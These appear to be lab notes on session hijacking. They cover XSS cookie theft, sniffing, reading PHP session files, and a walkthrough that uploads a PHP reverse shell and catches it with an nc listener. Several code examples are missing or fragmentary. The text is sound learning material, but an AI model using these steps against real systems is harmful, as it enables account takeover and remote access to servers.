

Session Hijacking refers to the **exploitation of a valid session assigned to a user**. The attacker can get the victim’s session identifier using a few different methods, though typically an XSS is used.

A Session Hijack attack can happen by:

 

# Example

The application does not properly sanitize the input in the comment field. So, the attacker can insert the malicious payload here:

By using the following script, we will be able to steal the users cookies.

    

cookie needs to be accessbile by javascript for this to work, and preventing it solves the problem.(HTTPOnly flag set to true)

 

# Packet sniffing

You can also use wireshark if you are on the same network to sniff the session value.

 

# Access the web server

Session data will be stored within the folder specified by the php.ini entry **session.save_path**. The attacker will focus on files names **sess_&lt;sessionID>**

In a real-world example, we could find the following entries:

    sess_ta9i1kqska407387itjfl57624

    sess_7o4l0kk5btl4e4qlok8r26tn12

If you want to hijack the user session related to the first entry,install a new cookie in your web browser using these values:

    cookie name: PHPSESSID
    cookie value: ta9i1kqska407387itjfl57624

The attack is very simple; however, it is critical that the attacker
can access the web server file system.

 

### ASP.NET can store session data in three different locations:

 

# Payloads

    
 
    '+document.cookie+''; 
    document.getElementById('message').value+=hidden;}"/>
    

Create a hidden div below the actual message

    

This div will contain the actual payload and is used to hide the image.

Create an image with a non-existent path. This will trigger an error (because the image cannot be found), caught by the onerror event, that contains the actual payload

    

# Challenge 2 reverse shell

## First step

Find a script for reverse shell based on languange (php, python, ruby, perl, bash, etc) for this example we will use **PHP**.

Copy the script to a file and upload it to the server.(name it shell.php)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Change the ip and port to your own 

Type in the cmd **ifconfig** to find the ip address connected to the server/network. If the ip is 10.100.13.200 then change the **IP** in the script file to it.

    IP  : 10.100.13.200

    Port : 1234

Go to this link for the tutorial

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

After uploading the script click on it in the browser and then type in the cmd **nc -nvlp 1234** to listen for the reverse shell. 

    nc -nvlp 1234

In the command line from the shell type this command to find the session_save_path:

    php -r 'echo session_save_path(), "\n";' 

Finally you can check the directory with **ls** and print the content with **cat**.

    ls 
    cat [file name]
